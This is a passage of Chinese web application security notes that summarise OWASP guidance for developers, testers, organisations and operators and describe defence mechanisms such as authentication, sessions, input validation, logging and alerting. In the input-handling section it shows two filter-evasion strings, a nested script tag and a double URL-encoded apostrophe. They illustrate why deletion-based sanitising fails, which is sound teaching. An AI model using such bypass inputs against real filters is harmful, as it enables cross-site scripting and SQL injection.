- 建立有效的监测和告警机制，使可疑活动在可接受的时间内被发现和应对。
- 建立或采取一个应急响应机制和恢复计划，例如：NIST 800-61 rev 2或更新版本。

已有商业或开源的应用程序防护框架（例如：OWASP AppSensor）、Web应用防火墙（例如 ：mod_security with the OWASP Core Rule Set）、log关联软件（例如：带有自定义仪表
板和警报的ELK ）。渗透测试或DAST工具（例如：OWASP ZAP）的扫描应总能触发报警。

#### 2.11.3 攻击案例场景

场景#1：

一个由小团队运行的开源项目论坛软件被攻击者利用其内在缺陷攻击了。 攻击者设法删除了包含下一个版本的内部源代码存储库以及所有论坛内容。 虽然代码可以恢复，但缺乏监测，记录或警报导致了更糟糕的违规行为。 由于此问题，该论坛软件项目不再活跃。

场景#2：攻击者使用通用密码进行用户扫描并能获取所有使用此密码的账户。对于其他账户而言，将仅有一次失败的登陆尝试记录。一段时间以后，攻击者可以用另一个密码再次进行此活动。

场景#3：美国的一家大型零售商据内部使用恶意软件分析沙箱做分析。 沙箱软件检测到存在潜在不必要的软件，但没有人对此负责并应对。 此沙箱软件在外部发现违规行为之前一直在发出警告。

### 2.12 开发人员需要注意什么？

上面分析了10种威胁等级高、危害较大的web安全漏洞，那么开发人员下一步应该做什么呢？

**建立并使用可重复应用的安全流程和标准安全控制**

无论您是刚接触web应用程序安全，还是已经非常熟悉各种安全风险，创建一个安全的web应用程序或修复一个已存在的应用程序的任务都可能很困难。若您需要管理一个大型的应用程序系统群，那任务将十分艰巨。

为帮助企业和开发人员以节省成本的方式降低应用程序的安全风险，OWASP创建了相当多的免费和开源的资源。您可以使用这些资源来解决您企业组织的应用程序安全问题。以下内容是OWASP为帮助企业组织创建安全的web应用程序提供的一些资源。


#### 2.12.1 应用程序安全需求

必须定义安全对某个应用的意义。建议使用下列标准来开展工作：
- 信息系统安全等级保护基本要求 GB/T 22239-2008

- [OWASP Application Security Verification Standard Project](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
- 外包合同安全参考 https://www.owasp.org/index.php/OWASP_Secure_Software_Contract_Annex


#### 2.12.2 应用程序安全架构

与其费力去提升（修补）应用程序和接口的安全，不如在应用程序开发的初始阶段就进行安全设计，
这样更能节约成本。作为好的开始，推荐：
- 信息安全技术 信息系统等级保护安全设计技术要求 GB/T 25070-2010
- 《OWASP Prevention Cheat Sheets》https://github.com/OWASP/CheatSheetSeries
- 《OWASP开发者指南》，用于指导如何在应用程序开发的初始阶段进行安全设计。


#### 2.12.3 标准的安全控制

建立强大并可用的安全控制极度困难。给开发人员提供一套标准的安全控制会极大简化应用程序和接口的安全开发过程。许多通用框架都已经有了授权、验证、CSRF等安全控制。


#### 2.12.4 安全开发生命周期

为了改进企业遵循的应用程序开发流程，OWASP推荐使用《OWASP软件保证成熟模型（SAMM）》。该模型能帮助企业组织制定并实施面对特定风险的软件安全战略。


#### 2.12.5 应用程序安全教育

为培训开发人员的web应用程序安全知识提供了培训材料。

### 2.13 测试人员需要注意什么？

**建立持续性的应用安全测试**

安全编码很重要。但验证你想达到的安全性是否真实存在、是否正确、是否像我们想的那样也很关键。

应用程序安全测试的目标是提供这些证据。这项工作困难而复杂，敏捷和DevOps当前快速发展的过程给传统的方法和工具带来的极大的挑战。因此，我们强烈建议你思考如何专注于整个应用程序组合中重要的地方，并且低成本高收益。

当前安全风险变化很快，每年进行一次的扫描或渗透测试的日子已经过去了。现代软件开发需要在整个软件开发生命周期中进行持续的应用安全测试。通过安全自动化来加强现有的开发管道并不会减缓开发速度。无论你选择哪种方法，都需考虑一下每年随着应用系统的规模倍增的定期测试、修复、复测并重新部署应用程序的成本。

#### 2.13.1 理解威胁模型

在你测试之前，请了解业务中需要耗时的重要部分。优先级来源于威胁模型，所以如果你还没有威胁模型，那么需要在测试开始前建立一个。考虑使用《OWASP ASVS》和《OWASP安全测试指南》作为指导标准，而不依赖工具厂商的结果来判断哪些是重要业务。

#### 2.13.2 理解SDLC

你的应用安全测试方法必须与你们软件开发流程（SDLC）中的人员、工具和流程高度匹配。

试图强制推动额外的步骤、门限和审查可能会导致摩擦、绕行和一定范围内的争议。寻找自然而然的机会去收集安全信息，然后将融合进你的流程。

#### 2.13.3 测试策略

选择最简单、快速、准确的方法去验证每项需求。《OWASP安全知识框架》和《OWASP应用程序安全验证标准》可以有助于您在单元测试或集成测试中做功能性或非功能性的安全测试。注意考虑用于工具误报的人力成本和漏报的严重危害。

#### 2.13.4 实现全面性和准确性

你不需要一切都要立刻测试。先关注那些重要的方面，然后随着时间扩展你的全面性。这意味着逐步扩展安全防御库和自动验证库，以及扩展应用系统和API本身的覆盖。目标是所有的应用程序和API基本安全性都能获得持续性的验证。

#### 2.13.5 体现报告的价值

不管你测试得怎么专业，若不有效与别人沟通都等于白做。

展示你对程序运行的理解，从而建立互信关系。不必用晦涩难懂专业用语，清楚描述漏洞的滥用风险，然后在某场景下真实展现攻击。要对漏洞发现与利用难度及引发的后果做真实的评估。

最后提交结果时请使用开发团队正在使用的文档工具格式，而不是简单的PDF。

### 2.14 企业组织下一步做什么？

**现在就启动应用程序安全计划**

应用程序安全已经不再是一个选择了。在日益增长的攻击和监管的压力下，企业组织必须建立一个有效的能力去确保应用程序和API的安全。由于在生产环境中的应用程序和APIs的代码行数惊人，许多企业组织都在努力处理数量巨大的漏洞。


OWASP建议这些企业组织建立一个应用程序安全计划，深入了解并改善它们的应用程序组合的安全性。为了实现应用程序的安全性，需要企业组织中的不同部门之间有效地协同工作，这包括安全和审计、软件开发、商业和执行管理。安全应该可视化和可量化，让所有不同角色的人都可以看到并理解企业组织的应用程序的安全态势。通过消除或降低风险的方式专注于活动和结果，以帮助提高企业安全性。关键活动包括：

#### 2.14.1 开始阶段

在配置管理数据库（CMDB）的文件中记录所有应用程序和相关数据资产。
- 建立一个应用程序安全计划并被采纳。
- 进行能力差距分析以比较您的组织和您的行业，从而定义重点改善的领域和执行计划。
- 得到管理层的批准，并建立针对整个IT组织的应用程序安全意识宣传活动。

#### 2.14.2 基于风险的组合方法

- 从业务角度识别应用程序组合的保护需求。这一定程度上应该受到隐私法和与数据资产有关的
其他条例的保护。
- 建立一个通用的风险等级模型，该模型中的可能性和影响要素应该与组织风险承受能力一致的。
- 相应的，度量并优先处理所有应用程序和 APIs。将结果添加到CMDB中。
- 建立保证准则，合理定义所需的覆盖范围和级别。
  
#### 2.14.3 建立坚实的基础
- 建立一套集中关注的策略和标准，用于提供所有开发团队所遵循的一个应用程序安全基线。
- 定义一组通用的可重复使用的安全控制，用于补充这些政策和标准，并提供使用它们的设计和
开发指南。
- 建立一个应用程序安全培训课程，此课程应该要求所有的开发人员参加，并且针对不同的开发
责任和主题进行修改。

#### 2.14.4 将安全整合到现有流程
- 定义并集成安全实施和核查活动到现有的开发与操作流程之中。这些活动包括了威胁建模、安
全设计和审查、安全编码、代码审查、渗透测试、修复等。
- 为开发和项目团队提供主题专家和支持服务，以保证他们的工作顺利进行。
- 
#### 2.14.5 提高管理层对安全的可见度
- 通过度量进行管理。根据对获取的度量和分析数据决定改进和投资的方向。这些度量包括：遵
循安全实践和活动、引入的漏洞、修复的漏洞、应用程序覆盖率、按类型和实例数量衡量缺陷
密度等。
- 对实现和核查活动进行数据分析，寻找根本原因和漏洞模式，以推动整个企业的战略和系统改
进。从失败中汲取经验，并提供积极的激励措施来促进进步。


### 2.15 应用程序的开发运维管理者下一步做什么？

**管理完整的应用程序生命周期**

应用程序是人创建和维护的最复杂的系统之一。应用程序的IT管理应该由IT专家来完成，并且由专家们负责应用程序的整个IT生命周期。

我们建议：为每个应用程序设置应用程序所有者和应用程序经理，以提供义务、责任、咨询和告知（RACI）。应用程序管理者是来自于业务角度的应用程序所有者，并负责管理完整的应用程序生命周期，包括应用程序的安全性、关联数据资产和文档。这有助于理解谁可以签下风险、谁负责包括安全在内的风险。

#### 2.15.1 安全需求和资源管理

- 收集并协商业务需求，包括：接收有关所有数据资产的机密性、完整性和可用性方面的保护要求。
- 编写技术要求，包括：功能性和非功能性安全要求。
- 计划和谈判预算，包括：设计、建造、测试和运营的所有方面以及安全活动。

#### 2.15.2 请求建议(RFP)和合同
- 与内部或外部开发人员协商需求，包括关于安全程序的指导方针和安全要求，例如：SDLC、最佳实践。
- 评估所有技术要求的完成情况，包括粗略的计划和设计。
- 洽谈所有技术要求，包括设计、安全和服务水平协议（SLA）。
- 考虑使用模板和核对清单，如 OWASP 安全软件合同附件。
- 咨询合格的法律咨询意见。
 
#### 2.15.3 规划设计
- 与开发人员和内部利益干系人（例如：安全专家）磋商规划和设计。
- 在安全专家的支持下，根据保护需要和规划的环境安全级别，定义安全架构、控制和对策。让应用程序所有者假定残余的风险或提供额外的资源。
- 每次规划设计最后阶段，确保为功能需求创建安全场景，并为非功能需求添加约束。
#### 2.15.4 开发

参考之前的“开发人员需要注意什么？”内容。

#### 2.15.5 部署、测试和展示

-  安全任务自动化应用程序、接口和所有需要的组件的安全设置，包括：必需的授权是至关重要的。
-  测试技术功能并集成到IT架构，并协调业务测试。从技术和业务角度考虑测试用例和滥用。
-  根据内部流程、保护需求和应用程序部署的安全级别管理安全测试。
-  将应用程序运行并从以前使用的应用程序迁移。
-  完成所有文档，包括：CMDB和安全架构。

#### 2.15.6 操作和变更
-  操作包括应用程序的安全管理（例如补丁管理）。
-  定期向应用程序所有者报告所有用户和授权并得到确认。
-  提高用户的安全意识，管理可用性与安全性的冲突。
-  计划和管理变更，例如：迁移到应用程序的新版本或其他组件（如：OS、中间件和库）。
-  更新所有文档，包括：CMDB文档、安全架构文档、控制和对策文档、运行手册和项目文档。

#### 2.15.7 退役制
-  实现数据保留（删除）策略和安全归档数据的业务需求。
-  安全关闭应用程序，包括：删除未使用的帐户、角色和权限。
-  将应用程序的状态设置为在CMDB中退役。


## 3 Web 防护机制

Web应用程序的防护机制主要有：

- 用户访问
- 处理用户输入
- 处理攻击行为
- 管理里应用程序

### 3.1 用户访问

对用户访问的认证、授权、审计几乎是所有系统所必须处理的工作。

大多数Web应用程序使用三层相互关联的安全机制处理用户访问：
- 身份验证
- 会话管理
- 访问控制（权限、审计）

这3个方面都是容易受到攻击的攻击面，而且是非常重要的安全要素。

由于这些机制相互依赖，所以不容易提供强大的总体安全保护，任意一个缺陷都可能使系统受到威胁。

#### 3.1.1 身份验证

大多数Web应用采用传统身份验证模型。即要求提交用户名和密码。

安全性要求高的应用，通常使用：
- 证书
- 多阶段登录

在安全要求更高的应用中，还会使用：
- 多因子验证
- 智能卡
- 质询-响应令牌（chanllenge-response token）
  
注意身份验证模块还包括：
- 注册
- 找回密码、恢复
- 密码修改等

这些模块的安全性也应同等重视。

这方面的攻击常见于：
- 猜测用户名
- 猜测密码
- 避开登录过程进入系统
- 利用密码找回等辅助功能获取合法身份

#### 3.1.2 会话管理（ Session ）

会话管理是对已验证身份的用户进行管理。

用户登录后，访问应用页面、使用功能都以“浏览器-服务器”会话形式体现。

为了维护用户请求、响应，实施过程的有效访问控制，几乎所有Web应用都会为每个用户建立一个会话，并给用户一个会话令牌（session token）。

- Session， 本质上是服务器上的一个数据结构，用于追踪用户与应用程序的交互状态。
- Session Token，是一个唯一的字符串，用于将用户操作（请求）与用户联系起来，或授权。
  
令牌的传输方式常见的有：
- 使用隐藏表单内容
- URL查询字符串
- HTTP cookie（标准方法）

会话攻击的主要形式有：
- 破解令牌，获得合法用户身份
- 获取其他用户令牌，提升权限

#### 3.1.3 访问控制

不同的用户角色有不同的权限，都要受到访问控制的管理。

典型的网络访问控制非常复杂，所以通常会有许多漏洞，使得攻击者能够未授权访问应用程序的数据与功能。

### 3.2 处理用户输入

所有的用户输入都不可信。

多数web攻击都与提交特殊输入有关。

输入确认（Input validation）是防御这些攻击的必要手段。

#### 3.2.1 输入多样性

Web网站通常会要求用户输入各种类型的数据。这时需要对输入的字符和数据类型做严格的检查。

#### 3.2.2 输入的处理

有多种方法处理用户输入：
- 拒绝已知的不良输入
  - 这种方法通常采用黑名单，包含已知攻击行为。
  - 这是比较低效的方法，黑客可以使用新方法绕过。
- 接受已知的正常输入
  - 使用白名单，仅包含合法字符串、模式等
  - 是最为有效的方法
- 净化
  - 用来处理不能保证安全的数据。
  - 去除所有不安全字符，转换为合法字符。
- 安全数据处理
  - 不检查确认输入内容，而是确保处理过程安全。
  - 例如，使用参数化查询，避免SQL注入。
  - 但这个方法并不适用于所有功能。
- 语法检查
  


执行多重过滤的原因：

- 应用程序功能的多样性、技术的复杂性、数据的复杂性使得单一过滤/防御是不可行的。
- 处理过程大多涉及组合操作，每个步骤的输入、处理、输出相差很大，可能出现相互矛盾的地方，对数据校验要求不一致。

#### 3.2.3 边界检查（boundary validation）

用户提交的非法数据是引发Web应用程序安全隐患的主要原因。对数据的校验需要在客户端和服务器端进行验证。仅一侧一次的验证是不能够解决所有问题的。

在服务器端，第一次收到用户数据的接口或程序，是一个重要的信任边界。Web应用需要在此设立检查和防御机制。


边界检查——是在每一个应用程序的功能边界，设置检查机制。是比净化模型更为有效的方法。


在确认检查过程中，当需要在几个步骤中处理用户提交的输入时，就会出现一些常见问题：

- 删除或编码某些特定字符或表达式以净化用户输入，但攻击者仍然可以使用其他方式绕过。
- 为了使用http，需要讲数据进行url编码，但编码会使恶意代码不易被检查

例如：

为了防止用户提交数据中出现脚本，可以尝试删除字符串```<script>```等。但黑客可以输入如下字符串```<scr<script>ipt>```。

当检查机制删除```<script>```后，原字符串又会变为```<script>```。

又例如：

某个应用程序的检查机制从用户输入中删除省略号，防止某些SQL注入攻击。

但是如果黑客传入的字符为编码后的字符，例如```%2527```，此web程序首先会对此字符进行url解码，转变为```%27```。这个字符并不包含省略号，因此允许通过检查。但如果进一步进行url解码，那么它将转变为省略号。

由此我们可知，**多步确认和数据规范化**不能解决所有问题，一种解决方法是递归执行净化操作，直到无法进一步修改输入。最好不要去净化某些不良数据的方法，而是直接拒绝这类输入。

### 3.3 处理攻击行为

设计安全应用程序时，必须假设程序将被蓄意破坏且经验丰富的攻击者列为攻击目标。

Web应用需要以受控方式处理、应对这类攻击。这包括：
- 处理错误（多重防御机制）
- 维护审计日志
- 及时告警（多角度检查）
- 应急响应

#### 3.3.1 处理错误与报错信息

在生产环境中，尽可能避免错误信息的输出，以防止攻击者利用这些信息。

大多数web应用使用下列方法处理错误和异常：
- ```try ... catch```块
- 错误处理技术
- 配置服务器使用自定义的方法处理应用程序错误（尽量少的输出）

#### 3.3.2 维护审计日志

审计日志对于排查问题，检测入侵有重大意义。

在任何注重安全的应用程序中，日志至少要包括以下内容：
- 所有与身份验证功能有关的事件，如成功或失败的登录、密码修改。
- 关键事务，如交易信息、信用卡支付转账
- 被访问控制机制阻止的访问企图
- 任何包含已知攻击字符串或公然表明恶意意图的请求

许多安全应用程序（如电子银行）会完整记录客户提出的每个请求。有效的日志通常记录的信息包括：
- 事件描述
- 时间
- 发出请求的IP地址
- 用户账户
- 请求信息
- 响应信息

日志系统必须受到严格保护，避免未授权的读取和写入访问。保护日志时，可以将其保存在仅接受主应用程序送出的更新信息的自治系统中；或者写入某个只读介质中

日志信息被攻击者访问不仅会掩盖攻击者行为，也会为黑客提供大量有价值信息。

#### 3.3.3 告警设置

审计日志，发现问题后需要立即向管理员报告，以便实时进行响应。

告警机制可能会在及时和准确之间进行平衡，一些告警会是误报。

通常需要报告的反常事件有：
- 应用反常，例如收到由单一IP地址发送的大量请求
- 交易反常，例如单个账户操作事务频率明显过多
- 包含攻击字符
- 存在普通用户无法查看的数据或被修改（被加密）

现有的防火墙（如WAF）和入侵检测产品能够较为完善的提供保护和告警，但这也不是万能的。特别是，无法应对新近的攻击和复杂隐蔽的攻击。

任何安全应用程序中，进行实时告警的最有效办法是：将告警机制与应用程序的输入确认机制和访问控制机制紧密结合。但这并不容易实现。

#### 3.3.4 应对攻击

除了告警之外，安全的应用程序中还需要有一些内置安全机制，来防止入侵行为，降低危害。

除了设立应对攻击的机制，减少程序内部错误（漏洞）是更为重要的应对策略。但设立多重的防御，为攻击者设立更多的障碍，能够有效降低危害。

### 3.4 管理应用程序

任何设计良好的安全应用，如果正确的管理和使用，都无法发挥其安全性能。

Web应用程序的管理界面和功能，往往是被攻击的重点部位。